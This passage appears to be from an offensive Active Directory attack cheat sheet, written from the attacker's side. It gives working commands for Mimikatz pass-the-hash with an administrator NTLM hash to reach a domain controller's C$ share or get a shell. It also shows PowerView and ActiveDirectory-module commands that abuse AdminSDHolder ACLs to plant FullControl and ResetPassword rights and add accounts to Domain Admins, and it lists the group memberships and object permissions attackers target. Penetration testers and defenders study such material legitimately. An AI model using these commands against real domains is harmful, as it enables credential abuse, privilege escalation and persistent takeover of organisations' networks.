 Then, using a PTH you can **list the content of C$ or even obtain a shell**. Notice that for creating a new powershell session with that hash in memory (for the PTH) **the "domain" used is just the name of the DC machine:**
```powershell
#(Nishang module)
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<DC-Host-Name> /user:Administrator /ntlm:<NTLM> /run:powershell.exe'"
#And in new spawned powershell you now can access via NTLM the content of C$
ls \\dc-host-name\C$
```
# ACLS
## Definition
An ACL is a set of rules that define which entities have which permissions on a specific AD object. These objects can be user accounts, groups, computer accounts, the domain itself and many more. The ACL can be configured on an individual object such as a user account, but can also be configured on an Organizational Unit (OU), which is like a directory within AD.
### Well known abused protected groups:
- **Account Operators:** Can modify AD/EA/BA groups,and modify nested group within these groups.
- **Backup Operators:** Backup GPO,edit to add SID of controlled account to privileged group and restore.
- **Server Operators:** Run command as system using *Disabled browser service*
- **Print Operators:** Copy `ntds.dit` backup,load device drivers
### Some of the Active Directory object permissions and types that we as attackers are interested in:
-   **GenericAll** - full rights to the object (add users to a group or reset user's password)
-   **GenericWrite** - update object's attributes (i.e logon script)
-   **WriteOwner** - change object owner to attacker controlled user take over the object
-   **WriteDACL** - modify object's ACEs and give attacker full control right over the object
-   **AllExtendedRights** - ability to add user to a group or reset password    
-   **ForceChangePassword** - ability to change user's password
-   **Self (Self-Membership)** - ability to add yourself to a group
# Attacks
## AdminSDHolder
1. Add `FullControl` permissions for a user to the AdminSDHolder. (Requires DA Privileges).
```powershell
#Powerview module
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName abuqasem -Rights All -Verbose
```
2. Check `Domain Admins` permission.
```powershell
#Powerview module
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDS | ?{$_.IdentityReference -match 'abuqasem'}
```
3. Abusing `FullControl`
```powershell
#Powerview module
Add-DomainGroupMember -Identity 'Domain Admins' -Members redgroup -Verbose

#ActiveDirectory module
Add-ADGroupMember -Identity 'Domain Admins' -Members redgroup
```
1. Add `ResetPassword` and `WriteMembers` for a user to the AdminSDHolder.
```powershell
#Powerview module
#ResetPassword
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName abuqasem -Rights ResetPassword -Verbose
```